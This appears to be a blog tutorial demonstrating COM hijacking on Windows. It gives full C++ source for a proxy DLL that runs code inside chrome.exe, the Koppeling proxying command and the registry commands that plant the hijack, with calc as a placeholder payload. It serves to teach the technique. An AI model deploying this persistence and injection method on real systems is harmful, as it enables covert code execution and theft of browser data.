



## Introduction
Recently I started learning malware development, and having had the fortune (or possibly misfortune) of already using Win32 for some of my school work, I became curious about how some malicious techniques exploit benign Windows features. One that caught my eye was COM hijacking. This post serves as an example of a COM hijack, as well as some information about the technique.

When I first heard about COM hijacking, I was curious as I noticed it wasn’t covered in [Maldev Academy](https://maldevacademy.com), and the name of the technique raised the question: 

## What the Heck is a COM?
Admittedly, I’m still not fully sure, and it’s not that relevant to the task at hand. As a quick definition, COM stands for Component Object Model, and is a set of processes that define how an object can be interfaced with (created, destroyed, managed, etc.). The primary case for COM is cross-process interoperability, it's essentially just a set of interfaces that objects can use for greater compatibility.

## How Does COM Hijacking Work?
The goal of this post is to demonstrate an example COM hijack, not to give an in-depth explanation of how or why it works, so I recommend checking out other resources for a more detailed explanation, especially the ones I have linked as references. At a high level, COM hijacking works by identifying a component absent in HKCU (or overriding an existing one) and replacing it with your own malicious component. The methodology used in this post is identifying a CLSID missing from the HKCU hive, and creating it with a malicious DLL. The malicious DLL must use DLL proxying, otherwise the functionality of the application will likely be destroyed upon loading the DLL. Naturally, there are many different ways to accomplish this, and the methodology below is just one such way.

## Step 1: Identify a Target Object
First we need to identify the COM Object to Hijack. Using procmon, the following filters can be applied:

| Filter Component                      | Purpose                                                       |
|---------------------------------------|---------------------------------------------------------------|
| `Operation = RegOpenKey`              | Only show registry key open attempts                          |
| `Result = NAME NOT FOUND`             | The key doesn't exist — hijack possible                       |
| `Path ends with InprocServer32`       | We're only interested in COM server DLL paths                |
| `Exclude if Path starts with HKLM`    | Only show failed lookups in HKCU, where user hijacks can happen |

With these filters applied, we can choose a CLSID of interest:

We can further inspect it by viewing its HKLM key. 

Upon [further research](https://hijacklibs.net/entries/microsoft/built-in/dataexchange.html) this seems like a good candidate.
## Step 2: Develop the DLL
While DLL development isn't unique to COM hijacking, it's an essential part of this example. For our purposes we will just be spawning a calc process.

Here’s the code I came up with:
```cpp
#include <Windows.h>
#include <stdio.h>
#include <psapi.h>
#include <tlhelp32.h>

HANDLE g_hMutex = NULL;

DWORD WINAPI RunCalc(LPVOID lpParam) {
	// enforce a single instance of calc while chrome is open
	DWORD dwPID = GetCurrentProcessId();
	HANDLE hProc = GetCurrentProcess();
	CHAR baseName[32];
	GetModuleBaseNameA(hProc, NULL, baseName, sizeof(baseName));
	
	if (strcmp(baseName, "chrome.exe")) {
		printf("Not chrome, cancelling inject.\n");
		return 1;
	}

	g_hMutex = CreateMutexA(NULL, TRUE, "Global\\ChromeCalcSpawnMutex");
	if (GetLastError() == ERROR_ALREADY_EXISTS) {
		return 1;
	}
	// make a wchar version for Process32First
	WCHAR wBaseName[32];
	MultiByteToWideChar(CP_ACP, 0, baseName, -1, wBaseName, sizeof(wBaseName) / sizeof(WCHAR));
	
	// decided not to use a snapshot
	/*
	// take a snapshot of all processes
	HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnap == INVALID_HANDLE_VALUE) {
		printf("Failed to create snapshot.\n");
		return 1;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof(PROCESSENTRY32);

	if (Process32First(hSnap, &pe)) {
		do {
			if (pe.th32ProcessID == dwPID)
				continue;
			if (lstrcmpiW(pe.szExeFile, wBaseName) == 0) {
				printf("Previous instance found: PID %lu\n", pe.th32ProcessID);
				CloseHandle(hSnap);
				return 1;
			}
		} while (Process32Next(hSnap, &pe));
	}
	*/

	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	if (!CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi)) {
		printf("[-] CreateProcessW failed with error: %lu\n", GetLastError());
	}

	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
	switch (ul_reason_for_call) {
	case DLL_PROCESS_ATTACH:
		CreateThread(NULL, 0, RunCalc, NULL, 0, NULL);
		break;
	case DLL_PROCESS_DETACH:
		if (g_hMutex) {
			ReleaseMutex(g_hMutex);
			CloseHandle(g_hMutex);
			g_hMutex = NULL;
		}
		break;
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
		break;
	}

	return TRUE;
}
```
A few notes:
* THIS CODE IS NOT PERFECT. For instance, spawning a thread in DllMain isn't best practice, if chrome crashes the mutex might leak. This can be mitigated using SEH or a global flag.
* To ensure that calc only opens once, a global mutex is used. Originally I tried making a snapshot instead, but since chrome can spawn a lot of processes at/near the same time, they would cancel each other out and none would spawn calc.
* Also, it’s important to be careful about which process you are injecting. In this case I make sure that only `chrome.exe` runs our payload. I learned this the hard way by accidentally injecting `explorer.exe` and having my dll persist whenever the process restarted. Luckily I always snapshot my VM so I just reset it.
* There are many other stealthier / more advanced ways to dll inject than DLL_PROCESS_ATTACH, but for our purposes the standard DLL injection is used
## Step 3: DLL Proxying
DLL proxying (also called function proxying) essentially is a way to proxy the functionality of a legitimate DLL with the functionality of an evil proxy DLL. This is accomplished by rebuilding the export table of the evil DLL with the functions from the legitimate DLL, such that the evil proxy DLL maintains the same functionality as the legitimate DLL while also being able to execute arbitrary code.

We’ll use [Koppelling](https://github.com/monoxgas/Koppeling) to achieve DLL proxying:
`.\NetClone.exe --reference C:\Windows\System32\DataExchange.dll --target "comhijack.dll" --output "dataexchange_HIJACKED.dll"`

## Step 4:  Let It Rip
We’re pretty much ready to go! Now we just need to add the registry key corresponding to the missing COM Object:

`reg add "HKCU\Software\Classes\CLSID\\{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}\InProcServer32" /ve /t REG_EXPAND_SZ /d dataexchange_HIJACKED.dll /f
`

`reg add "HKCU\Software\Classes\CLSID\{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}\InProcServer32" /v ThreadingModel /t REG_SZ /d Both /f
`

Upon launching chrome, we can see the calculator spawn:
<video src="/static/videos/com_hijack_poc.mp4" controls autoplay muted width="100%" />

To further ensure our DLL was loaded process explorer or resource monitor can be used to investigate the DLLs that chrome.exe has loaded.
From here, a crafty attacker could use the execution within chrome to exfil browser data, hide c2 traffic, install malicious extensions, etc. For now we’ll stop here though.

## Cleanup:
Just delete the registry key created earlier.

## References:
https://specterops.io/blog/2025/05/28/revisiting-com-hijacking/
https://silentbreaksecurity.com/adaptive-dll-hijacking/
https://pentestlab.blog/2020/05/20/persistence-com-hijacking/